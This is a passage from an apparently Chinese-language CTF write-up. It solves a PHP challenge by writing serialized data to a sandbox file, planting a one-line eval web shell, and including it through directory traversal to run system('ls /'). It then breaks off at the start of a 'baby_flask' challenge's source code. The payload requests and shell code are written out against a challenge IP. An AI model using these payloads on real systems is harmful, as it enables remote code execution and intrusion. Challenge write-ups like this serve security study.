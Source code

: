 
利用点：可以写文件，要传序列化数据

![image-20220426190844799](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-2e1a9bc5523418e0c3124341f28ca057c72e721c.png)

`sArray[1];` 是 `/` 之后的所有内容，可以目录穿越，包含getshell：

![image-20220426190938526](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-6d59350dd6ab71f7a3264f0fb6207be2ef1437ae.png)

```php
http://47.97.127.1:21445/index.php?s=tool/test

Y0U_CA0_n3vEr_F1nD_m3_LOL=s:7:"phpinfo";
```

![image-20220426191818524](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-0126ebf7da09f0251cc1c23c4eab084c14bcc449.png)

phpinfo查看REMOTE\_ADDR：

![image-20220426192917523](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-9f8eb02a9a66a86f811c6e4945928849fe0dc026.png)

本机ip：123.233.253.147，md5：83003065800cb9011a96bde94e33ea82，所以文件在/tmp/sandbox/83003065800cb9011a96bde94e33ea82下

写入

```php
Y0U_CA0_n3vEr_F1nD_m3_LOL[file]=evilTool.php&Y0U_CA0_n3vEr_F1nD_m3_LOL[data]=<?php eval($_POST[mon]);?>
```

包含：

```php
http://47.97.127.1:21445/index.php?s=tool/../../../../../../../../../tmp/sandbox/83003065800cb9011a96bde94e33ea82/evil

mon=system('ls /');
```

![image-20220426193028614](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-0957549dad572438c29255ea27c891d63078f4f3.png)

baby\_flask
-----------

```python
import time
import re,os,sys
from flask import Flask,render_template,request

nums,locked = 0, False
app = Flask(__name__)

@app.route('/')
@app.route('/index')
def domain():
    return 'Hello'

@app.route('/create')
def create():
    try:
        global nums, locked
        assert not locked, "LOCKED"
        default_content = "<h1>2</h1>"
        locked = True
        if nums > 9999:
            raise Exception("templates full")

        with open(f'./templates/{nums}.html', 'w') as f:
```